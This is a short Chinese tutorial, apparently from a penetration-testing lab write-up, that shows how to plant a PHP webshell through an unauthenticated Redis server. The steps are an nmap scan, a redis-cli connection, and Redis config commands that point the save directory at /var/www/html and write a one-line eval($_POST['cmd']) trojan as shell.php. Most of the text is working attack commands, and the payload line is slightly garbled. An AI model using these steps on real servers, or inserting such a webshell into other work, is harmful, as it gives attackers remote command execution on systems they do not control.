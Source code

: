 
#### 写入webshell


 **先决条件**：


1. 知道网站根目录绝对路径，不然找不到webshell
2. 对目标网站有写入的权限，否则无法写入webshell


 **存在的问题**：


1. 网站的绝对路径难找，大多没有写入权限
2. redis一般配合java网站需要写入jsp木马
3. redis所在的服务器可能根本没有web服务


 **利用**：


​ 1\.namp扫描端口



```
nmap -sV -Pn -T4 -p1-10000 靶机ip

```

  这里看见开放了8080端口


![image-20241030232456518](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241030232456518.png)
​ 2\.目录扫描发现网站绝对路径


![image-20241030232456518](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241030232456518.png)
​ 3\.连接靶机redis服务



```
redis-cli -h 靶机ip -p 6379

```

![image-20241030232619467](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241030232619467.png)
​ 4\.写入webshell



```
 # 设置redis库文件写入到/var/www/html目录，该目录是httpd服务的默认路径
config set dir /var/www/html

# 设置写入的文件名，这里需要写入一个php的一句话木马，故而使用php后缀
config set dbfilename shell.php

# 写入webshell
set x "php</span @eval($_POST['cmd']);?>"

# 保存
save

```
